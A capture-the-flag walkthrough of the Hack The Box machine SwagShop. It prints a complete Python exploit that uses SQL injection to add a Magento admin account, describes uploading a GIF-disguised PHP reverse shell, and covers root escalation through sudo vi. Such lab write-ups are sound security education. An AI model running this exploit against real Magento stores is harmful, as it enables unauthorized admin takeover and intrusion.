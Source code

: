 ```yaml
---
title:     "Hack The Box - Swagshop"
tags: [linux,easy,sudo,php]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/1.png)

We are going to pwn SwagShop from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/188>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets Begin with HTTP 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/2.png)
It is Magento 

>Magento is an open-source e-commerce platform written in PHP. It is one of the most popular open e-commerce systems in the network. 

Run Gobuster on background

GObuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.140
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/27 09:57:45 Starting gobuster
===============================================================
/app (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
===============================================================
2019/12/27 10:00:03 Finished
===============================================================
```

So I searched for exploits available, and I choose randomly
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/3.png)

>https://www.exploit-db.com/exploits/37977

This script will create admin account with username ``forme`` and password ``forme``
I changed the script's target url and executed.

```
 
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/4.png)

It created an account , Now we can login with `` forme : forme ``

``http://10.10.10.140/index.php/admin``

and Im succesfully logged in.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/5.png)

## Froghopper Attack

I searched for any ways to reverse shell once we get authenticated and I found this

>https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper

According to the exploit I need to first enable ``Symlink``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/6.png)

Once its enabled 
We need to create Category so `` Catalog-> Manage Categories -> and add our malicious code with image ``.

I used pentest monkey reverse shell and added ``GIF89`` which makes the file as gif image.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/7.png)


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/8.png)
Upload it and save category.
Once its done move to `` Newsletter -> Newsletter Templates `` and inject the payload
Click Preview Template and start listener on your machine.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/9.png)

We got the shell.

## Privilege Escalation:

As always I started with ``sudo -l``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/10.png)

It looks like ``/usr/bin/vi`` can run any files in ``/var/www/html`` as sudo without root password

>https://gtfobins.github.io/gtfobins/vi/

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/11.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/12.png)

We goot Root!



